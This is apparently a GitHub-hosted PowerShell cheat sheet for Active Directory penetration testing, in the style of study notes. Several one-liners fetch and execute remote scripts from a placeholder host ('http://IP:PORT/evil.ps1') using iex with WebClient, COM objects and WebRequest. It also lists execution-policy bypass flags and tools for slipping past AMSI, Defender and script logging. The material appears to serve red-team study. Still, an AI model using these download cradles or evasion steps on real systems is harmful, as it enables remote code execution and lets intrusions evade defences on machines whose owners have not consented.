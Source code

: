 # **Load and import PS scripts and modules**
`. C:\AD\Tools\script.ps1` (dot sourcing)
`Import-Module C:\AD\Tools\ADModule-master\AD.psd1` (import a module or a script)
## **Download remotely**
`iex (New-Object Net.WebClient).DownloadString('http://IP:PORT/payload.ps1'` or 
```PowerShell
$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://IP:PORT/evil.ps1');sleep 5; $response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
### **PSv3 onwards**
`iex (iwr 'http://IP:PORT/evil.ps1')` or
```PowerShell
$h=New-Object -ComObject 
Msxml2.XMLHTTP;$h.open('GET', 'http://IP:PORT/evil.ps1',$false);$h.send();iex
$h.responseText
```
or
```PowerShell
$wr= [System.NET.WebRequest]::Create("http://IP:PORT/evil.ps1")
$r= $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
# **Bypass Execution Policy:**
`powershell -ep bypass` 
`powershell -ExecutionPolicy bypass`
`powershell -ExecutionPolicy bypass -File *.ps1` 
`powershell -c <cmd>`
`powershell -encodedcommand`
`$env:PSExecutionPolicyPreference="bypass"`
`Set-ExecutionPolicy Bypass -Scope Process`

# **Bypass Security Controls:**
Such as: Script Block Logging / AMSI (AntiMalware Scan Interface) / CLM (Constrained Language Mode) integrated with AppLocker and WDAC (Device Guard)
obfuscated version of https://github.com/OmerYa/Invisi-Shell (it gets detected)
***How to use***
- With admin privileges (RunWithPathAsAdmin.bat)
- With non-admin privileges (RunWithRegistryNonAdmin.bat)
type exit from the new PS sessions to complete the clean-up

***Obfuscation***
full obfuscation of PS scripts, https://github.com/danielbohannon/Invoke-Obfuscation

***load scripts in memory and avoid detection using AMSI bypass***
AMSITrigger: https://github.com/RythmStick/AMSITrigger 
`AmsiTrigger_x64.exe -i <PATH>\evil.ps1` (identify the part of the script that is detected)
DefenderCheck: https://github.com/matterpreter/DefenderCheck
`DefenderCheck.exe evil.ps1` (identify code/strings from binary/file that Defender detects)
# **Enumeration Tools:**
#### **ActiveDirectory PowerShell Module**
MS signed and works in PS CLM
```PowerShell
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```
https://github.com/samratashok/ADModule
